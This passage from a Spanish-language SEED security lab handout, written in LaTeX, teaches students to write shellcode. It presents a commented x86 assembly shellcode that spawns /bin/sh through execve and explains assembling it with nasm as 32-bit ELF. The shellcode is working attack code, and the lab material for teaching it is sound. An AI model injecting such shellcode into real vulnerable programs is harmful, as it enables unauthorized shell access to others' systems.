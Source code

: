 En esta tarea, hemos provisto un shellcode x86 sencillo para mostrar a los estudiantes como escribir un shellcode desde el principioo. Los estudiantes pueden descargarse este código del laboratorio en el sitio oficial.
El código a usar es mostrado a continuación. \textbf{Nota:} por favor no copie y pegue el código desde este archivo PDF, porque algunos caracteres podrían verse alterados al realizar esta acción. Use directamente el código descargado del sitio oficial.

Si bien en el código se da una breve explicación en los comentarios, los estudiantes pueden encontrar una explicación más detallada en el libro de SEED (Capítulo 4.7) y también en el curso de SEED en Udemy (Lectura 30 del curso de Computer Security).


\begin{lstlisting}[caption={A basic shellcode example \texttt{mysh.s}}]
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor  eax, eax
      push eax          ; Use 0 to terminate the string  
      push "//sh"       ;                                  (*@\ding{202}@*)
      push "/bin"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0                      (*@\ding{203}@*)
      push ebx          ; argv[0] points to the cmd string (*@\ding{204}@*)
      mov  ecx, esp     ; Get the address of argv[]

      ; For environment variable 
      xor  edx, edx     ; No env variable                  (*@\ding{205}@*)

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b 
      int 0x80
\end{lstlisting}


\paragraph{Compilando a código objeto.}
Compilaremos nuestro código en ensamblador (\texttt{mysh.s}) usando \texttt{nasm}, el cual es un ensamblador y desensamblador para las arquitecturas Intel x86 y x64.
El parámetro \texttt{-f elf32} nos permite compilar el código a un formato de binario ELF de 32-bits. El formato ELF (Executable and Linkable Format) es un formato  archivo para ejecutables, código objeto y librerías compartidas.
Para usar un binario de 64-bits se deberá usar \texttt{elf64}.


